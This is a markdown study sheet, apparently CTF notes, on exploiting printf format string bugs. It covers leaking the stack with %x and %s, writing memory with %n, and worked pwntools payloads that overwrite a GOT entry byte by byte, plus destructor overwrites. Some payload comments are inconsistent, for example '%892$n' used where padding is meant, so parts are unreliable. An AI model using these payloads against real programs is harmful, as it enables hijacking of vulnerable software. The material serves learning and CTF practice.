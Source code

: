 # Format Strings

## Identification

Look for `printf()` family functions that do not handle user input correctly.  
E.g. `printf(user_input);`  

## Find Your Input in Memory

In the vulnerable input field, provide an easily identifiable sequence of characters, e.g. `aaaabbbbccccdddd`  
followed by many `.%x` sequences. In the output, look for `61616161.62626262.63636363.64646464`.  

E.g.: Input: `aaaabbbb.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x` becomes  
Output: `aaaabbbb.8048914.ff811298.ff811330.ff8112a4.f7ee7444.f781f0e6.ff811564.abeb6602.f7ed64a0.61616161.62626262.2e78252e.252e7825.78252e78`  

You can then drill down to the specific leaks with `%10$x`, i.e. print the 10th hex value (dword size on 32bit,  qword on 64bit)  
Using the above example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  

## Writing to Memory

`%n` indicates how long a formatted string is at run time.  
When the `%n` is encountered during printf processing, the number of characters up to the current point  
are written to the address argument corresponding to the format specifier.  

E.g. `\xc8\x97\x04\x08.%x.%x.%100x.%n` would write the integer `110` to the address `0x080497c8`.  
Each byte in the address counts as 1, each %x counts as 1, each '.' counts as 1, and the `%100x` counts for 100.  
Address = 4,  
%x's = 2,  
'.' = 4,  
%.100x = 100,  
Total = 110.  

## Finding a Function to Overwite

Look for a function just after the vulnerable `printf()` function call.  
Ghidra (or another disassembler) can be used.  

`objdump -R <vulnerable_binary> | grep <function_after_printf)` will find that functions address within the binary (linux PIE disabled).  
Or open the binary in GBD, break on main (or anywhere) and run the binary, then type `got` into GDB and  
look for the desired function to overwrite (also PIE disabled).  

ANother method to find addresses is: `objdump -D <binary> | grep <function>`  

## Multiple Writes

If you want to overwrite a function pointer, to point to a different function (see the section on finding  
a function to overwrite) you need to perform multiple writes.  

If you want to overwrite the `fflush()` pointer that is found at `0x0804a028` you will  
need to perform writes at `0x0804a028`, `0x0804a029`, `0x0804a02a` and `0x0804a02b`.  
Depending on each starting value and what you need to change it to, you may need to  
write a number of bytes that overflows into into the next byte, setting that.  
E.g. Writing to `0x0804a028` to set the 1st byte, writing to `0x0804a029` to set  
the 2nd and 3rd byte, then `0x0804a02b` to set the 4th byte.  

Using the example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  
Print values and analyse in GDB: 
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  fmt0, # %10$n - writing bytes at the 10th position
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the starting value of the pointer: `x/2wx 0x0804a028` = `0x52005252`  

Our first write (LSB) needs to increase from `0x52` to `0x0b` (`0x10b`)  
0x10b - 0x52 = 0xb9 OR (int) 185.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0b010b0b` 

Second write needs to increase 2nd and 3rd bytes from `0x010b` to `0x0487`.  
0x487 - 0x10b = 0x37c OR (int) 892.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x8704870b` 

Third write needs to increase the 4th byte from `0x87` to `0x08` (`0x108`).  
0x108 - 0x87 = 0x81 OR (int) 129.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  flag_val2, # b"%129$n" - Write 129 bytes, plus the original 135 bytes (0x87) = 0x108
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0804870b` our desired value.  

## Read Strings From the Stack

If you have a format string bug and can dump hex values, you can begin to inspect any pointers to strings  
by calling `%s` on the pointer.  

E.g.:  

```bash
> %x.%x.%x.%x.%x.%x.%x.%x 
40.f7e1d620.8048647.0.1.f7fbd4a0.ffb3aee4.ffb3adcc
> %8$s
flag{flag}

```

## Overwriting Destructors

Destructors run after main() exits by calling exit().  
Destructors can be found in a number of sections:  

- .dtors
- .fini
- .fini_array

Find them in an binary that does not have PIE enabled:  

- Objdump   - `objdump -D <binary> | grep fini`
- Ghidra    - see the "Program Trees" window
- In GDB    - `info file`
- nm        - `nm <binary>`
- readelf   - `readelf -S <binary>`

Write an address into the destructors section of a function you want to call.  

## Overwrite a function 

Find the function you want to overwrite, within the GOT (can find with `Ghidra`). Overwrite this pointer with the  
address to the desired functions PLT address (can find with `objdump`), e.g. system@plt.  
